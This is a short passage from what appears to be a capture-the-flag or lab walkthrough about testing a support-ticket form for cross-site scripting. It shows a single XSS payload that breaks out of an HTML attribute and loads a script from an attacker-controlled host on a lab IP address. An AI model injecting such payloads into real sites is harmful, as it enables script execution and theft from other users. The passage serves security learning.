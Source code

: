<figure><img src="../../../.gitbook/assets/xss_ticket_form.png" alt="" width="375"><figcaption><p>Figure 1: A form that can we can raise ticket to the support department.</p></figcaption></figure>

</div>

We can first **test** if it is vulnerable to XSS (Figure 2).

{% tabs %}
{% tab title="1. Payload" %}
```javascript
 "><script src=http://10.10.15.131:1337/test</script>
```
{% endtab %}
